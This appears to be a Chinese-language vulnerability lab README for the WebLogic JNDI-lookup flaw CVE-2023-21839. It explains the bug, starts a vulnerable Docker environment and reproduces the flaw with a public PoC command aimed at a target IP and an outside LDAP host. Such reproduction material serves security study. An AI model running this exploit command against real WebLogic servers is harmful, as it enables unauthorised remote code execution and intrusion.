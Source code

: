 # WebLogic未授权远程代码执行漏洞 (CVE-2023-21839)

Oracle WebLogic Server是业界广泛使用的Java EE企业级应用服务器。

在[Oracle 2023年1月安全公告](https://www.oracle.com/security-alerts/cpujan2023.html)中，Oracle修复了影响WebLogic Server 12.2.1.3.0、12.2.1.4.0和14.1.1.0.0版本的严重安全漏洞CVE-2023-21839。

该漏洞允许未授权远程攻击者通过T3或IIOP协议发起JNDI lookup操作。如果JDK版本过低或本地存在可用的反序列化gadget（javaSerializedData），攻击者可进一步实现远程代码执行（RCE）。

参考链接：

- <https://www.oracle.com/security-alerts/cpujan2023.html>
- <https://nvd.nist.gov/vuln/detail/CVE-2023-21839>
- <https://github.com/houqe/POC_CVE-2023-21839>

## 环境设置

执行以下命令启动WebLogic Server 12.2.1.3漏洞环境：

```
docker compose up -d
```

启动完成后，访问`http://your-ip:7001/console`可以看到WebLogic管理控制台登录页。

## 漏洞复现

你可以使用公开的POC工具<https://github.com/houqe/POC_CVE-2023-21839>进行漏洞复现。

```shell
python CVE-2023-21839.py -ip 192.168.25.129 -p 7001 -l ldap://craft.ldap.tld/test
```

漏洞利用成功后，可在DNSLog平台或LDAP服务端看到来自目标服务器的请求，如下图所示：

![](1.png)
